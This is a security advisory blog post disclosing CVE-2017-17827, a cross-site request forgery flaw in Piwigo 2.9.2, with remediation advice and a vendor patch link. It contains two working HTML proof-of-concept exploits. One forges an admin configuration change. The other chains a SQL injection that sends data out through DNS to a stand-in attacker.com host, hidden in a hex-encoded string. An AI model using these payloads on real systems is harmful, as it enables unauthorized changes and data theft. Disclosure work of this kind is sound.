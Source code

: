 ```yaml
---

layout: post
title: CVE-2017-17827 Cross Site Request Forgery in Piwigo 2.9.2
tag: advisory
---
```


### Affected Version : <=2.9.2

### Description:

It was identified that admin panel of Piwigo application is vulnerable to [Cross Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) vulnerabilities. An attacker can exploit these vulnerabilities to coerce user in performing unintended actions.



### Vulnerable Instances:

- /admin.php?page=configuration&section=main **[CVE-2017-17827]**



### Steps to Reproduce

* Login to `admin` user account.
* Save the following exploit in a new html file, example: `csrf_exploit.html`.

> CSRF Exploit Code

```html
<!--csrf_exploit.html-->
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/localhost\/piwigo-2.9.2\/piwigo\/admin.php?page=configuration&section=main", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
        xhr.withCredentials = true;
        var body = "gallery_title=CSRF+ATTACK&page_banner=test+banner&order_by%5B%5D=date_available+DESC&order_by%5B%5D=file+ASC&order_by%5B%5D=id+ASC&rate_anonymous=on&allow_user_registration=on&allow_user_customization=on&week_starts_on=monday&history_guest=on&log=on&mail_theme=clear&submit=";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
  </body>
</html>
```

* Open the `csrf_exploit.html` file in the same browser in a new tab as of `admin` user has logged in.
* Observe the title of application is changed to `CSRF ATTACK`.

![csrf_poc](/assets/images/piwigo2.9.2/csrf.png)



### Out of Band SQL Injection via CSRF

Following `Exploit` shows that using above attack an attacker can exploit other vulnerabilities with in the application such as `SQL Injection` and exfiltrate data via DNS queries.

```html
<!--Out of band SQL Injection via CSRF-->
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/127.0.0.1\/piwigo-2.9.2\/piwigo\/admin.php?page=batch_manager&mode=unit", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
        xhr.withCredentials = true;
        var body = "element_ids=12%2c13)+union+select+LOAD_FILE(group_concat(0x2f2f2f2f,(select+@@version_compile_os),0x2e61747461636b65722e636f6d2f2f6d7973716c5f65787472616374)),2+--+&name-12=funny+cat+5-wallpaper-1920x1080&author-12=this+is+test&date_creation-12=2016-11-24+00%3A00%3A00&level-12=0&tags-12%5B%5D=this+is+test&description-12=this+is+test&name-13=pirates+of+the+caribbean+dead+men+tell+no+tales-wallpaper-960x600&author-13=this+is+test2&date_creation-13=2016-11-23+00%3A00%3A00&level-13=0&tags-13%5B%5D=this+is+test2&description-13=this+is+test2&submit=Submit";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
  </body>
</html>
```

![csrf_dns](/assets/images/piwigo2.9.2/csrf_2.png)



### Remediation:

Piwigo 2.9.2 application implements CSRF attack protection via `_csrf`  tokens in number of components, it is recommended to implement similar protection for `Configuration` components. Addition information on CSRF Prevention techniques can be found [here](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)).

### Vendor Patches:

The patch released by vendor for this issue can be found [here](https://github.com/Piwigo/Piwigo/commit/c3b4c6f7f0ddeaea492080fb8211d7b4cfedaf6f)
